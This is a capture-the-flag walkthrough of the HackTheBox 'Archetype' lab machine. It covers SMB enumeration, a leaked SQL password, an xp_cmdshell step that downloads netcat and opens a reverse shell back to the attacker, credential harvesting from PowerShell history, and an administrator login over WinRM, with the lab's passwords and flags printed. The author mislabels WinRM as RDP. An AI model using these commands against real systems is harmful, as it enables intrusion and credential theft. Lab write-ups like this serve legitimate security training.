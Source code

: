 # HACKTHEBOX - Archetype

**nmap scan**: sudo nmap -v -sV -sC -oN nmap.txt $IP
```
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
........
|_SHA-1: 54e6 8e48 de5f 3fa3 c183 0641 b4d0 9080 8c15 78a2
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
......
```

Ok, let's connect to SMB on port 445:

```bash
smbclient -L $IP
# backups         Disk

# Connect to SMB share
smbclient \\\\$IP\\backups
```

**file found**: `prod.dtsConfig`
```xml
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration> 
```

```bash
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket && cd /opt/impacket
sudo docker build . -t impacket
# .....

# Using mssqlclient from impacket to connect to Microsoft SQL Server
mssqlclient -p 1433 ARCHETYPE/sql_svc:M3g4c0rp123@10.129.185.63 -windows-auth
```

**Remote Code Execution Procedures**:
```bash
enable_xp_cmdshell
xp_cmdshell powershell curl [kali-tun0]/nc.exe -o C:\\Users\Public\nc.exe
xp_cmdshell powershell C:\\Users\Public\nc.exe -e cmd.exe [kali-tun0] 8888 # reverse-shell here!!
```

Using winPEAS to enumerate machine to find way to priviledge escalation
**file contain admin password**:
```bash
powershell ./winPEAS.exe
# found: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

**credential found**: `\\Archetype\backups /user:administrator MEGACORP_4dm1n!!`

```bash
where -r c:\\ *.txt 
# found: c:\Users\sql_svc\Desktop\user.txt
type c:\Users\sql_svc\Desktop\user.txt
```

**user flag**: `HTB{3e7b102e78218e935bf3f4951fec21a3}`

Because we don't have(don't know how to have) interactive shell so we can't supply password for `runas`(cannot one line) cmd command!!, windows don't directly have a way to switch to another account in shell.

**Remote??**:
```bash
nmap -p 3389 -v 10.129.185.63
# PORT     STATE  SERVICE
# 3389/tcp closed ms-wbt-server

nmap -v -p 5985,5986 10.129.185.63
# PORT     STATE  SERVICE
# 5986/tcp closed wsmans
# 5985/tcp open  wsman
```
yes, yes, yes, RDP!!
```bash
evil-winrm -i 10.129.185.63 -p 5985 -u administrator -p MEGACORP_4dm1n!!
# success!!
type C:\\Users\Administrator\Desktop\root.txt
```

**root flag**: `HTB{b91ccec3305e98240082d4474b848528}`
